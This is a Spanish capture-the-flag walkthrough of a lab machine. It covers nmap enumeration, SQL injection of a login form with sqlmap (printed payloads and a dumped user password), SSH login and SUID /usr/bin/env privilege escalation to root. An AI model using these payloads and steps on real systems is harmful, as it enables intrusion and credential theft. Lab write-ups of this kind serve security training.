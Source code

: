 ![](../../../Images/Pasted%20image%2020240921182525.png)

# Enumeración

## Nmap

El escaneo de **nmap** nos enseña la existencia de un servicio SSH i un servicio HTTP funcionando.

```
> nmap --open --min-rate 10000 -Pn -n -oN scans/allTCPPorts $target

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-23 12:21 CEST
Nmap scan report for 172.17.0.2
Host is up (0.00025s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 0.08 seconds
```

```
> nmap -oN scans/targetedTCPPorts -sCV $target -p 22,80                       
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-23 12:22 CEST
Nmap scan report for 172.17.0.2
Host is up (0.00016s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 72:1f:e1:92:70:3f:21:a2:0a:c6:a6:0e:b8:a2:aa:d5 (ECDSA)
|_  256 8f:3a:cd:fc:03:26:ad:49:4a:6c:a1:89:39:f9:7c:22 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Iniciar Sesi\xC3\xB3n
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.96 seconds
```

## Website (80 TCP Port)

En el sitio web nos encontramos con una panel de inicio de sesión. Comprobando los campos del formulario si contienen una posible vulnerabilidad SQLi, comprobamos que el campo de usuario es vulnerable.

![](../../../Images/Pasted%20image%2020240923102252.png)
# Usuario Dylan

Utilizando la herramienta SQLMap realizamos la autoexplotación de la vulnerabilidad encontrada para extraer datos interesantes. Pero, antes de todo, capturamos la petición GET con Burpsuite.

![](../../../Images/Pasted%20image%2020240923103040.png)


Ahora pasamos la petición a SLQMap y le dejamos trabajar.

```
> sqlmap -r req.txt -D register -T users --dump                                                                                     
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.8.3#stable}
|_ -| . [']     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 12:34:00 /2024-09-23/

[12:34:00] [INFO] parsing HTTP request from 'req.txt'
[12:34:00] [WARNING] provided value for parameter 'submit' is empty. Please, always use only valid parameter values so sqlmap could be able to run properly
[12:34:00] [INFO] resuming back-end DBMS 'mysql' 
[12:34:00] [INFO] testing connection to the target URL
got a 302 redirect to 'http://172.17.0.2/index.php'. Do you want to follow? [Y/n] y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [Y/n] y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: name (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: name=-5829' OR 2077=2077#&password=admin&submit=

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: name=admin' OR (SELECT 4254 FROM(SELECT COUNT(*),CONCAT(0x7176707071,(SELECT (ELT(4254=4254,1))),0x7171707a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- ryzS&password=admin&submit=

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: name=admin';SELECT SLEEP(5)#&password=admin&submit=

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: name=admin' AND (SELECT 2043 FROM (SELECT(SLEEP(5)))TFsI)-- nAJP&password=admin&submit=
---
[12:34:02] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 22.04 (jammy)
web application technology: Apache 2.4.52
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[12:34:02] [INFO] fetching columns for table 'users' in database 'register'
[12:34:02] [INFO] resumed: 'username'
[12:34:02] [INFO] resumed: 'varchar(30)'
[12:34:02] [INFO] resumed: 'passwd'
[12:34:02] [INFO] resumed: 'varchar(30)'
[12:34:02] [INFO] fetching entries for table 'users' in database 'register'
[12:34:02] [INFO] resumed: 'KJSDFG789FGSDF78'
[12:34:02] [INFO] resumed: 'dylan'
Database: register
Table: users
[1 entry]
+------------------+----------+
| passwd           | username |
+------------------+----------+
| KJSDFG789FGSDF78 | dylan    |
+------------------+----------+

[12:34:02] [INFO] table 'register.users' dumped to CSV file '/home/rh4ps00dy/.local/share/sqlmap/output/172.17.0.2/dump/register/users.csv'
[12:34:02] [INFO] fetched data logged to text files under '/home/rh4ps00dy/.local/share/sqlmap/output/172.17.0.2'
[12:34:02] [WARNING] your sqlmap version is outdated

[*] ending @ 12:34:02 /2024-09-23/
```

De esta forma conseguimos un nombre de usuario y una contraseña. 

Ahora podemos iniciar sesión en el servicio SSH abierto en el puerto 22.

```
ssh dylan@$target                                                                                                                   
dylan@172.17.0.2's password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 6.9.7-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

dylan@3a52fa45bcbe:~$ 
```

# Escalada de privilegios

Haciendo una investigación a nivel local del sistema descubrimos el binario ``/usr/bin/env`` con permisos SUID.

```
> find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null

-rwsr-xr-x 1 root root 72712 Feb  6  2024 /usr/bin/chfn
-rwsr-xr-x 1 root root 44808 Feb  6  2024 /usr/bin/chsh
-rwsr-xr-x 1 root root 72072 Feb  6  2024 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 47480 Feb 21  2022 /usr/bin/mount
-rwsr-xr-x 1 root root 40496 Feb  6  2024 /usr/bin/newgrp
-rwsr-xr-x 1 root root 59976 Feb  6  2024 /usr/bin/passwd
-rwsr-xr-x 1 root root 55672 Feb 21  2022 /usr/bin/su
-rwsr-xr-x 1 root root 35192 Feb 21  2022 /usr/bin/umount
-rwsr-xr-x 1 root root 43976 Jan  8  2024 /usr/bin/env
-rwsr-xr-- 1 root messagebus 35112 Oct 25  2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 338536 Jan  2  2024 /usr/lib/openssh/ssh-keysign
```

Como sudo está desactivado podemos ahorrarnos la primera línea y apuntar directamente a la ruta del binario, consiguiendo así rootear la máquina.



